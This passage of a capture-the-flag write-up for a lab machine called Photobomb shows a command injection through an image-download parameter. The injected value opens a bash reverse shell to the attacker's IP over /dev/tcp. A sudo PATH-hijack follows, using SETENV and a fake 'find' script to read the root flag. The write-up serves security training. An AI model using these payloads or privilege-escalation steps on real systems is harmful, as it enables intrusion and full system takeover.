    ```html
- Exploit the vulnerability: `photo=kevin-charit-XZoaTJTnB9U-unsplash.jpg&filetype=png%3B%20bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E89%2F4444%200%3E%261%22&dimensions=1x1` (I've URL encoded the exploit `; bash -c "bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"`)

    Reverse shell obtained!

<br><br>

## Privesc

I start analyzing the system with: `sudo -l`
```
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

*NOTE: `env_reset` undoes all changes to `$PATH` [https://www.sudo.ws/docs/man/1.8.13/sudoers.man/](https://www.sudo.ws/docs/man/1.8.13/sudoers.man/)*

*NOTE: `SETENV` allows you to override this by adding the `--preserve-env` option to `sudo`*

It looks like I can run the `/opt/cleanup.sh` file as root. I look at what this script does.

![cleanup](/ctf-journal/assets/images/machines/Photobomb/cleanup.png)

Ok, as the name says this script cleans the log files and protects the original photos by making them accessible only to root.

But wait, the script executes find command with relative path!

This is great because I can change the `$PATH` to run as root whatever I want!

*NOTE: I can do this because we have `SETENV` permission in the file*

`export PATH="/tmp/bin:$PATH"`<br>
`mkdir -p /tmp/bin`<br>
`echo '#!/bin/bash' > /tmp/bin/find`<br>
`echo 'cat /root/root.txt > /tmp/flag' >> /tmp/bin/find`<br>
`echo 'chown wizard:wizard /tmp/flag' >> /tmp/bin/find`<br>
`chmod +x /tmp/bin/find`<br>
`sudo --preserve-env=PATH /opt/cleanup.sh`

Root flag taken!


